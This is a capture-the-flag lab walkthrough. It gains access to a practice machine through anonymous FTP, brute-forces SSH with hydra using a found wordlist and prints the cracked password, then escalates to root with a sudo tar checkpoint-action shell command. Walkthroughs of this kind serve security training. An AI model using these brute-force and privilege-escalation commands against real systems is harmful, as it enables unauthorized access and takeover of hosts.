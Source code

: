 ## Task 1) Who wrote the task list ? 

My target ip address was : 10.10.238.128

The first step was to scan open ports with nmap :

```bash
nmap -sT -sV 10.10.238.128
```

We discovered that, there are 3 ports open : 21 (ftp), 22 (ssh), 80 (http).

For check vulnerabilities, we need to do another scan with -A option :

```bash
nmap -A 10.10.238.128
```

This command isn't stealthier but this is ok for our purpose. We found that ftp has the anonymous login allowed.

I connected to the ftp using anonymous username and logged successfully. Then, I listed the directory and found two .txt files. I downloaded them with "get" command. 

With a "cat" command, we discovered that the task list was written by **lin**.

## Task 2) What service can you bruteforce with the text file found ?

In the second file named "lock.txt", there are some words we can use to bruteforce the ssh service.

## Task 3) What is the users password ? 

Bruteforce a ssh service is very easy with hydra. I typed this command :

```bash
hydra -l lin -P lock.txt ssh://10.10.238.128
```

I was waiting 5 seconds and see the cracked password : **RedDr4gonSynd1cat3**

## Task 4) Find user.txt and root.txt flags

For the file "user.txt", I connected using ssh with those credentials :

Username --> lin, Password --> RedDr4gonSynd1cat3

The file was directly in the directory.

Now to become root user, I typed this command :

```bash
sudo -l
```

This command help me to find what commands, the current user is able to do without any specific permissions.

I found that "/bin/tar" doesn't need permission. So, I went to [GTFO bins](https://gtfobins.github.io/) and I typed tar.

We can become root user with this command :

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Now just go to the root directory and "cat" the flags.
